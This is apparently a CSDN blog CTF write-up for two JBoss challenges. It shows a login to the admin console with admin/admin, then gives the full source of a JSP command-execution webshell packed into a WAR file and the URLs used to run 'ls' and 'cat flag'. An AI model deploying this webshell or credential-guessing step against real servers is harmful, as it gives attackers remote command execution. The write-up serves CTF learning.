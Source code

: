<!--yml
category: 未分类
date: 2022-04-26 14:36:19
-->

# CTF_Web：长安杯-2021 Old But A Little New & asuka题解_星辰照耀你我的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_35493457/article/details/120470858](https://blog.csdn.net/qq_35493457/article/details/120470858)

## 0x00 Old But A Little New

两个JBoss题目几乎一模一样，解法也相同，题目只考一个内容，就是Jboss后台上传war包getshell。
首先是一个jboss页面。
![](img/eda7dc6c6485446721d8347a690f5caf.png)后面的wiki等等连接都在jboss的官网，与本题没有关系。

## 0x01 弱口令登录

![](img/b7ab186cca0a32f35cf063e45ba91643.png)

第一个路径`admin-console`，管理员控制台可以直接使用`admin、admin`的弱口令登录，在后台中找到部署war包的地方上传。（这里的shell.war是已经上传好的）
![](img/db1043b9079de767f25c77258a86232c.png)

## 0x02 上传war包getshell

在这里使用的是[TsengYUen](https://www.jianshu.com/p/123db17b78a0)师傅的回显jsp一句话，然后使用命令打包。

```
jar cvf shell.war 1.jsp 
```

一句话的内容为：

```
<%
   if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%> 
```

部署成功后查看自己的war包：
路径为`/shell/1.asp`
网页连接列目录

```
http://51118620.yunyansec.com/shell/1.jsp?pwd=023&i=ls 
```

![](img/200dd67aec4ce380c789758d89fa78b7.png)直接cat flag即可。

```
http://51118620.yunyansec.com/shell/1.jsp?pwd=023&i=cat%20flag 
```

![](img/9a27499eb76e0e913d840cf006b1c4ed.png)

## 0x03 asuka

JBoss系列的题目，与上一个JBoss相同的解法，用同一个war包即可。命令执行获取flag
![](img/6460d9e8da3a20437f2f0f7ec2972cce.png)